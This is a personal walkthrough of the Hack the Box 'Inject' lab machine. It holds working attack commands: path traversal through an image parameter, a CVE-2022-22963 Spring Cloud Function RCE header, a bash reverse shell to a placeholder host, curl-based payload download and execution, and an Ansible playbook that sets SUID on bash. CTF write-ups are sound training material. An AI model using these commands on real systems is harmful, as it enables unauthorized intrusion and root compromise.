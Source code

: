 # Hack the Box Inject 
This is a walkthrough for how I got user and root flags for the Inject Hack the Box machine. 
Date: 3/13/2023

Target Machine IP: 10.10.11.204

## Recon

To start I began by running Nmap agains the machine with the -A ( to enable OS and version detection, script scanning, and traceroute) and -T4 (faster execution) flags
`nmap -A -T4 10.10.11.204`

I got the following results from my scan:
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ca:f1:0c:51:5a:59:62:77:f0:a8:0c:5c:7c:8d:da:f8 (RSA)
|   256 d5:1c:81:c9:7b:07:6b:1c:c1:b4:29:25:4b:52:21:9f (ECDSA)
|_  256 db:1d:8c:eb:94:72:b0:d3:ed:44:b9:6c:93:a7:f9:1d (ED25519)
8080/tcp open  nagios-nsca Nagios NSCA
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Lets start by examining port 8080. We can see that it is hosting some http appliction. I visited the site in my browser to confirm. 
[image](images/site.png)

I  ran a dirb scan to identify more directories
`dirb http://10.10.11.204:8080`
I got the following result:
--- Scanning URL: http://10.10.11.204:8080/ ----
+ http://10.10.11.204:8080/blogs (CODE:200|SIZE:5371)                                                                           
+ http://10.10.11.204:8080/environment (CODE:500|SIZE:712)                                                                      
+ http://10.10.11.204:8080/error (CODE:500|SIZE:106)                                                                            
+ http://10.10.11.204:8080/register (CODE:200|SIZE:5654)                                                                        
+ http://10.10.11.204:8080/upload (CODE:200|SIZE:1857)

I found an interesting page  http://10.10.11.204:8080/upload
[image](images/upload.png)

This page lets you upload an image and then see the image you uploaded. The URL for the uploaded image is http://10.10.11.204:8080/show_image?img=YOUR_IMAGE_FILE  

I noticed if the file was not there you get an HTTP error so I tried to use curl to get more in depth results. 
`curl --output - http://10.10.11.204:8080/show_image?img=none`
{"timestamp":"2023-03-13T14:31:58.373+00:00","status":500,"error":"Internal Server Error","message":"URL [file:/var/www/WebApp/src/main/uploads/none] cannot be resolved in the file system for checking its content length","path":"/show_image"} 

In the result I notice that the full file path was listed file:/var/www/WebApp/src/main/uploads/none. I decided to try other possible paths.
`curl --output - http://10.10.11.204:8080/show_image?img=../`
This listed the files in the directory uploads
[image](images/directoryList.png)

I used this to explore until I found /var/www/WebApp/pom.xml. 
`curl --output - http://10.10.11.204:8080/show_image?img=../../../pom.xml` `
This gave back an xml file with the configurations for the server. Here we can see it is using Java 11 and the Spring Framework. Googling the dependencies we can see that org.springframework.cloud version 3.2.2 is vulnerable (CVE-2022-22963). 
[image](images/springfw.png)

A github page showing how this can be exploited can be found here https://github.com/me2nuk/CVE-2022-22963.

According to the page we need to run:
`curl -X POST  http://10.10.11.204:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("touch /tmp/pwned")' --data-raw 'data' -v`
[image](images/touchRCE.png)
If the server is vulnerable we should be able to find a new file in /tmp/ called pwned. I ran the command and then ran `curl --output - http://10.10.11.204:8080/show_image?img=../../../../../../tmp/` to verify the file 
[image](images/verifyRCE.png)

Since the file is there we know that this Remote Code Execution works. So lets set up a reverse shell. 

## User Flag

First I created a file called rev.sh (`nano rev.sh`) with the following code. This is the shell we are going to upload on our target. 
`#!/bin/bash'
`bash -i >& /dev/tcp/YOUR_IP/4444 0>&1`
[image](images/revsh.png)

Next I started a python http server to host our file:
`python3 -m http.server 80`

In a seperate terminal tab I started Netcat:
`nc -lvnp 4444`

I then had the target download rev.sh from our python server using our RCE and having the target use curl:
`curl -X POST  http://10.10.11.204:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("curl YOUR_IP/rev.sh -o /tmp/rev")' --data-raw 'data' -v`
[image](images/downloadRCE.png)
I then executed rev.sh on the target using our RCE:
[image](images/executeRCE.png)

In the netcat terminal tab I now have an active shell: 
[image](images/frank.png)

In the /home directory we see two users frank and phil. In phil's home directory we can see the flag User.txt but we cannot open it so we need to swith users to phil. Looking through franks home directory we find .m2/settings.xml. When we read settings.xml we can see phil's password.
[image](images/settingsxml.png)

We can now switch users to become phil
`su phil`
[image](images/philPass.png)

We can get a more stable shell using:
`python3 -c 'import pty;pty.spawn("/bin/bash")'`
[image](images/upgradeShell.png)
We can now read the user.txt file in phil's home directory:
[image](images/user.png)

## System Flag

Now that we have the user flag we need to escalate to root and get the root flag. We can run linpeas (https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) to scan the server for vulnerablitites.
First I downloaded a copy linpeas to my localmachine:
`curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh`

I still had the python webserver running but if I did not I would have needed to run:
`python3 -m http.server 80`

On the taget machine I ran:
`curl YOUR_IP/linpeas.sh | sh`
[image](images/linpeas.png)

This started running linpeas. From this tool we can find that it is running Ansible Playbook.
**[image](images/ap.png)

Googleing I found this blog artical detailing how to exploit Ansible to gain root access https://rioasmara.com/2022/03/21/ansible-playbook-weaponization/

First on our machine we need to create a .yml file with the mallcious tasks. I called this file pb.yml. In this file we need the following yaml:

-hosts: localhost
  tasks:
	-name: "whatever"
      shell: "chmod +s /bin/bash"
      become: true
[image](images/yml.png)
`chmod +s /bin/bash`  will allow phil to run bash as a super user.

Next we need to put this file in the target machines /opt/automation/tasks/ directory.
As phil I cd into that directory (`cd /opt/automation/tasks/`). Then we can use our python sever again to download the file.
`wget YOUR_IP/pb.yml`
[image](images/wget.png)

We now need to wait a few minutes for Ansible Playbook to run its automation tasks. After a few minutes have gone by you can run `bash -p` to elevate your shell.

Now we can cd into /root and read root.txt
[image](images/root.png)
